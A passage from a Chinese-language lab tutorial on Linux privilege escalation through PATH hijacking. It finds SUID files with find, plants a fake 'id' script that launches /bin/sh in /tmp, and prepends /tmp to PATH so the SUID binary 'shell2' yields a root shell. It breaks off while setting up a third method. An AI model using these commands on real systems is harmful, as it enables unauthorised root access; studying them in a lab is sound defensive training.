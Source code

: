 [![](https://p2.ssl.qhimg.com/t01db8391ced601bd1e.png)](https://p2.ssl.qhimg.com/t01db8391ced601bd1e.png)

### <a class="reference-link" name="%E6%B8%97%E9%80%8F%E5%8F%97%E5%AE%B3%E8%80%85%E7%9A%84VM%E6%9C%BA%E5%99%A8"></a>渗透受害者的VM机器

同样，您需要登陆目标系统，然后进入提权阶段。假设您通过ssh成功登录到受害者的机器。然后在find命令的帮助下不浪费时间的搜索具有SUID或4000权限的文件。在这里，我们还可以发现具有suid权限的/home/raj/script/shell2。

```
find / -perm -u=s -type f 2&gt;/dev/null
```

然后我们进入/home/raj/script并看到一个可执行文件”shell2”。所以我们运行这个文件，它看起来像文件shell2试图运行id，这是一个真正的在/bin中的文件。

```
cd /home/raj/script
ls
./shell2
```

[![](https://p3.ssl.qhimg.com/t0164caf928cf2ead3c.png)](https://p3.ssl.qhimg.com/t0164caf928cf2ead3c.png)

### <a class="reference-link" name="echo%20%E5%91%BD%E4%BB%A4"></a>echo 命令

```
cd /tmp
echo "/bin/sh" &gt; id
chmod 777 id
echo $PATH
export PATH=/tmp:$PATH
cd /home/raj/script
./shell2
whoami
```

[![](https://p3.ssl.qhimg.com/t0103346164ef88d325.png)](https://p3.ssl.qhimg.com/t0103346164ef88d325.png)

## 

## 方法3

Ubuntu LAB SET_UP<br>
重复上述步骤设置您自己的实验环境，您可以在我们的demo.c文件中观察我们正在调用cat命令从etc/passwd文件中读取内容。<br>[![](https://p0.ssl.qhimg.com/t01d2f07d28870ed23a.png)](https://p0.ssl.qhimg.com/t01d2f07d28870ed23a.png)

然后使用gcc编译demo.c文件，并将编译文件提升到SUID权限。

```
ls
gcc demo.c -o raj
chmod u+s raj
ls -la raj
```
